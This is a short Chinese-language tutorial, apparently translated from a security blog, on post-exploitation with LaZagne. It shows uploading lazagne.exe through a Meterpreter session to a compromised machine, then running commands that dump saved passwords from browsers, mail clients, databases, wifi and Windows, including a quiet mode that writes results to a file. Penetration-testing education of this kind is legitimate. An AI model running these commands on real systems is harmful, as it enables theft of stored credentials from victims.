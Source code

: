 ## 使用LaZagne对保存的密码进行后利用 [^1]

### **LaZagne里出名的脚本** [^2]

### **目标软件** [^3]

### **语法和参数**

![lazagne](../src/lazagne.jpg)

### **实现Meterpreter并上传LaZagne**

`upload lazagne.exe ./` [^4]

`lazagne.exe -h`

`lazagne.exe mails`

`lazagne.exe windows`

`lazagne.exe browsers`

`lazagne.exe databases`

`lazagne.exe wifi`

`lazagne.exe all` [^5]

`lazagne.exe all -oN` [^6]

`lazagne.exe all -vv `[^7]

`lazagne.exe all -quiet -oN` [^8]

[原文](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)

[项目地址](https://github.com/AlessandroZ/LaZagne)

---

[^1]: 该 LaZagne 是一个开源应用程序。它检索系统上存储的密码

[^2]: KeeThief 、mimipy 、mimikatz 、pypykatz、 creddump、 chainbreaker、 pyaes、 pyDes、 秘密存储等等

[^3]: 火狐、谷歌浏览器、歌剧、Skype、PostgreSQL、雷鸟、KeePass、CoreFTP、FileZilla等等

[^4]: 现在我们在目标系统上有 LaZagne ，现在是枚举密码的时候了。在meterpreter shell上使用shell命令到达目标系统上的命令行。

[^5]: 该参数运行LaZagne中的所有模块。选择此参数后，脚本将在后台运行，该脚本将提取存储在目标系统上的所有登录凭据

[^6]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不仅会在终端屏幕上打印输出，还会在运行的目录中创建一个文件，并将其与脚本的输出一起写入。

[^7]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。默认情况下，在 LaZagne中，我们有两个级别的详细程度。它们是0级和1级。如果没有给出参数，则自动选择0级。但是当我们给出 -vv 参数时，它会增加提取的冗长度。输出也会改变。现在，LaZagne强行运行其库中的每个脚本，并尝试提取越来越多的凭据

[^8]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不会在终端屏幕上打印任何输出。脚本确实在后台运行，但是没有提取密码的可见性，因此我们将参数与前面讨论过的oN参数一起使用，因为它在运行的目录中创建了一个文件并将其与脚本的输出一起写入。
